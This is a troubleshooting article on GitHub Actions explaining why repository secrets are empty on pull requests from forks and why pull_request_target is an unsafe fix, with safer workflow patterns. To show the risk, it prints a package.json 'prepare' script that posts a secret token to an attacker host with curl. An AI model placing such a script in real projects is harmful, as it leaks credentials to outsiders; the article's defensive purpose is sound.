

**TL;DR:** GitHub deliberately does not pass secrets to a `pull_request` run that came from a fork, because that run checks out and executes the fork author's code — an unresolved secret expression evaluates to the empty string rather than erroring, which is why it fails silently. The fix is *not* to switch the trigger to `pull_request_target`.

> **In plain English (30 sec):** Env file outside code — same image, different config.

## The symptom

> "Our SonarCloud step needs `SONAR_TOKEN`. It works perfectly on pull requests opened from branches inside our repo. On pull requests from external contributors' forks, the exact same job runs, the exact same step executes, and the scanner exits with `You're not authorized to analyze this project`. The secret is defined at the repository level. There is no `Secret not found` warning anywhere in the log. The workflow file is byte-identical in both cases because it comes from our base branch either way."

Three guesses are already dead. It is not a trigger problem — the job *runs*, so the `on:` block and any `if:` conditions evaluated true. It is not a missing secret — same-repo PRs on the same workflow file prove the secret exists and is spelled correctly. And it is not an environment-scoped secret waiting on a reviewer — the job would show as *waiting*, not as *running and failing*.

The confusing part is the silence. GitHub does not error on an unavailable secret. `secrets.SONAR_TOKEN` simply resolves to `""`, and the CLI downstream reports an authorization failure that reads like a permissions misconfiguration in SonarCloud rather than a CI context problem.

## Reproduce

Add a probe step that reports whether the secret is non-empty *without* printing it:


```yaml
name: pr-checks
on:
  pull_request:

jobs:
  scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4

      - name: Probe secret availability
        env:
          HAS_TOKEN: ${{ secrets.SONAR_TOKEN != '' }}
          FROM_FORK: ${{ github.event.pull_request.head.repo.fork }}
          HEAD_REPO: ${{ github.event.pull_request.head.repo.full_name }}
        run: |
          echo "from fork: $FROM_FORK"
          echo "head repo: $HEAD_REPO"
          echo "token present: $HAS_TOKEN"
```


On a same-repo PR:

```
from fork: false
head repo: acme/payments-api
token present: true
```

On a PR from `contributor/payments-api`:

```
from fork: true
head repo: contributor/payments-api
token present: false
```

`token present: false` — not an error, not a warning. The expression evaluated, produced `""`, and `"" != ''` is `false`.

## The root cause chain

### 1. A fork PR runs the base repo's workflow file against the fork's code

This is the detail that makes the behavior feel inconsistent. The *workflow definition* comes from the base repository — a fork cannot edit your `pr-checks.yml` and have the edited version run, which is why the file "looks the same in both cases." But the *repository content the job checks out and executes* is the fork's head commit: its source, its test files, its `package.json` lifecycle scripts, its build tooling.

So the job is running attacker-controllable code in a context that has access to whatever the workflow gives it.

### 2. GitHub withholds secrets from that context by design

The events reference states it without qualification:

> With the exception of `GITHUB_TOKEN`, secrets are not passed to the runner when a workflow is triggered from a forked repository.

and, for the one secret that *is* passed:

> `GITHUB_TOKEN` has read-only permissions in pull requests from forked repositories.

The reason is direct. If secrets were populated, anyone on the internet could open a pull request whose `package.json` contains

```json
{
  "scripts": {
    "prepare": "curl -X POST -d \"$SONAR_TOKEN\" https://attacker.example/collect"
  }
}
```

and `npm ci` in your own workflow would exfiltrate the token for them. No review needed — the workflow runs on PR open. GitHub Security Lab's guidance is the same: "the standard `pull_request` workflow trigger by default prevents write permissions and secrets access to the target repository."

The empty string, rather than a hard error, is what makes this hard to spot: expression interpolation of an unavailable secret is a normal, successful evaluation that yields nothing.

### 3. The evidence in the log is what is *missing*

Secrets that reach the runner are registered with the log masker. On a same-repo PR, any accidental echo of the token renders as `***`. On a fork PR, there is nothing to mask, so the same line prints an empty field:

```
# same-repo PR
Run sonar-scanner -Dsonar.login=***
INFO: Analysis report uploaded

# fork PR
Run sonar-scanner -Dsonar.login=
ERROR: You're not authorized to analyze this project
```

The absence of `***` where you expect it is the confirming signal. Combine it with `github.event.pull_request.head.repo.fork == true` from the probe step and the diagnosis is complete.

### 4. Why `pull_request_target` looks like the fix and is not

Search results converge fast on the same suggestion: swap `pull_request` for `pull_request_target`, because that trigger *does* get secrets. It does. That is precisely the problem.

`pull_request_target` runs in the context of the **base repository's default branch**, not the merge commit — and consequently it gets the base repo's secrets and a read/write `GITHUB_TOKEN`. That is safe *only for as long as the job never executes the fork's code*. The moment someone adds a checkout of the PR head to get "the code being tested," the fork's code is running with write permissions and full secret access. This is the documented "pwn request" pattern; GitHub's own docs carry the warning:

> Running untrusted code on the `pull_request_target` trigger may lead to security vulnerabilities. These vulnerabilities include cache poisoning and granting unintended access to write privileges or secrets.



The two rectangles differ by exactly one line of YAML, and that one line is the entire security boundary.

## The fix

### Option A — keep `pull_request`, make the secret-dependent step conditional (ship this)

The honest fix is to accept that a fork PR cannot have your secrets and design the job around it. Split the work: everything that needs no credential runs for everyone, and the credentialed step is gated on the PR not coming from a fork.


```yaml
on:
  pull_request:

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - run: npm ci
      # runs for every PR including forks - no secret needed
      - run: npm test

  scan:
    runs-on: ubuntu-latest
    # skip cleanly instead of running and failing with an empty token
    if: github.event.pull_request.head.repo.full_name == github.repository
    steps:
      - uses: actions/checkout@v4
      - env:
          SONAR_TOKEN: ${{ secrets.SONAR_TOKEN }}
        run: sonar-scanner
```


Comparing `head.repo.full_name` against `github.repository` is more robust than reading `head.repo.fork`, because `fork` is a property of the head repository in general, not of this PR's relationship to *your* repo.

If `scan` is a required status check, mark the job as skipped-but-successful rather than leaving the PR permanently blocked — either drop it from required checks and run it post-merge on `main`, or add a companion job that reports success for fork PRs.

### Option B — when the credentialed work genuinely must happen for fork PRs: the `workflow_run` handoff

Some jobs really do need to run for fork PRs — posting coverage back as a PR comment, uploading a scan report. The pattern that does this without executing untrusted code under secrets is a two-workflow split, and it is what GitHub Security Lab recommends:

1. An **unprivileged** workflow on `pull_request` builds and tests the fork's code with no secrets, and writes its results to an artifact.
2. A **privileged** workflow on `workflow_run` (which runs from the default branch, with secrets) downloads that artifact and does the credentialed part — comment, upload, label.


```yaml
# .github/workflows/report.yml - the privileged half
name: report
on:
  workflow_run:
    workflows: ["pr-checks"]
    types: [completed]

permissions:
  pull-requests: write

jobs:
  comment:
    runs-on: ubuntu-latest
    steps:
      # download only - never check out or execute the PR head here
      - uses: actions/download-artifact@v4
        with:
          name: coverage-report
          run-id: ${{ github.event.workflow_run.id }}
          github-token: ${{ secrets.GITHUB_TOKEN }}
      # treat every byte of that artifact as untrusted input:
      # parse it, do not eval it, do not interpolate it into a shell
      - run: node .github/scripts/post-coverage-comment.js
```


The isolation is that the privileged workflow never runs fork-authored code — it only reads data the fork produced. That data is still untrusted, so parse it rather than interpolating it into a `run:` block or a script argument.

### Option C — `pull_request_target` with no head checkout (narrow, metadata only)

`pull_request_target` is legitimate for jobs that touch only PR *metadata*: applying labels by changed path, greeting first-time contributors, assigning reviewers. The rule is absolute — the job must never check out, install from, or execute the PR head. If your workflow contains both `pull_request_target` and a checkout with a `ref:` that resolves to the PR head, you have built the vulnerability, regardless of intent.

**Do not use this as the fix for the symptom in this post.** The symptom is "my scanner needs the code *and* the token"; that is exactly the combination `pull_request_target` cannot safely provide.

## Deeper checks for production

1. **Audit every `pull_request_target` workflow in the repo for a head checkout.** Grep `.github/workflows/` for `pull_request_target`, then check each hit for `actions/checkout` with a `ref:` referencing `github.event.pull_request.head`. Also check for implicit execution: a `pull_request_target` job that runs `npm ci`, `pip install -e .`, `make`, or a `setup-*` action with a `cache:` input pointed at the PR's lockfile is running fork-controlled logic even without an explicit script step.

2. **Declare `permissions:` explicitly on every workflow.** `GITHUB_TOKEN` defaults to read-only in newer GitHub defaults, but a repository or organization can still be configured for legacy broad write access. An explicit top-level `permissions:` block with the minimum scopes makes the blast radius a property of the file rather than of a setting somebody may change later.

3. **Know that Dependabot PRs behave like fork PRs but from a different store.** For a workflow triggered by Dependabot, "the only secrets available to the workflow are Dependabot secrets. GitHub Actions secrets are not available," and the run gets a read-only `GITHUB_TOKEN` by default. A team that fixes the fork case and then sees the identical empty-secret symptom on Dependabot PRs is looking at a separate secret store, not a regression.

4. **Move high-value credentials behind environments and OIDC.** Repository secrets are readable by any workflow the repo runs. An environment with required reviewers gates the credential behind a human approval, and OIDC federation to a cloud provider removes the long-lived credential from the repo entirely — there is nothing left in `secrets.*` for a fork PR to have been denied.

## Prevention checklist

- [ ] No workflow combines `pull_request_target` with a checkout of `github.event.pull_request.head.sha` or `head.ref`
- [ ] Every job that reads `secrets.*` is gated on `github.event.pull_request.head.repo.full_name == github.repository`, or is genuinely fine running with an empty value
- [ ] Required status checks do not include a job that can only pass on same-repo PRs, so fork contributions are not permanently blocked
- [ ] Credentialed post-processing for fork PRs uses the `pull_request` artifact plus `workflow_run` handoff, and the privileged half never checks out the PR head
- [ ] Every workflow declares an explicit top-level `permissions:` block rather than relying on the repository default
- [ ] Artifacts downloaded in a `workflow_run` job are parsed as data, never interpolated into a `run:` shell line

## FAQ

**Why doesn't the workflow just fail loudly when a secret is unavailable?**
Because nothing failed. Secret interpolation is expression evaluation, and an unavailable secret evaluates to the empty string — a valid result. The runner then passes `""` into `env:` exactly as it would pass any other value. The only signal is downstream: the tool that received the empty credential rejects it, and the log shows a blank where a masked `***` would otherwise appear.

**Can a fork PR at least use `GITHUB_TOKEN`?**
Yes — `GITHUB_TOKEN` is the documented exception, but it is read-only in pull requests from forked repositories. That is enough to read repository contents and post a check-run status, and not enough to write a comment, push a commit, or create a label. If your fork-PR job needs any of those, the `workflow_run` handoff in Option B is the route.

**Our maintainers approve fork workflow runs before they execute. Doesn't that make it safe to inject secrets?**
Approval gates *when* the run starts, not *what* it can reach. The approval a maintainer clicks is on the run of the fork's current head — approving it does not audit the fork's `prepare` script, its test fixtures, or its transitive dependencies. GitHub still withholds secrets from an approved `pull_request` fork run for that reason, and that is the correct default to keep.

**Is the risk only about the token being printed to the log?**
No, and log masking is a red herring here. The fork's code runs *in the same job* as the secret, so it can read the environment variable directly and send it anywhere over the network. Masking only prevents accidental display in the log — it does nothing about deliberate exfiltration by code the job is executing.

## Source

- **Symptom:** `secrets.*` resolves to an empty string on pull requests from forks while working normally on same-repo pull requests, with no error or warning in the log
- **Domain:** cicd
- **Docs/Repo:** [Events that trigger workflows — GitHub Docs](https://docs.github.com/en/actions/reference/workflows-and-actions/events-that-trigger-workflows) — establishes "With the exception of `GITHUB_TOKEN`, secrets are not passed to the runner when a workflow is triggered from a forked repository", that `GITHUB_TOKEN` is read-only in fork PRs, that `pull_request_target` runs in the base repository's default-branch context, and the caution that running untrusted code on `pull_request_target` can lead to cache poisoning and unintended access to write privileges or secrets
- **Docs/Repo:** [Keeping your GitHub Actions and workflows secure: Preventing pwn requests — GitHub Security Lab](https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/) — establishes that `pull_request_target` grants write permission and target-repository secrets, names the pwn-request pattern as `pull_request_target` combined with an explicit checkout of an untrusted PR, and describes the unprivileged-build plus `workflow_run`-privileged-consumer split
- **Docs/Repo:** [Troubleshooting Dependabot on GitHub Actions — GitHub Docs](https://docs.github.com/en/code-security/dependabot/troubleshooting-dependabot/troubleshooting-dependabot-on-github-actions) — establishes that Dependabot-triggered runs receive only Dependabot secrets, not Actions secrets, and a read-only `GITHUB_TOKEN` by default


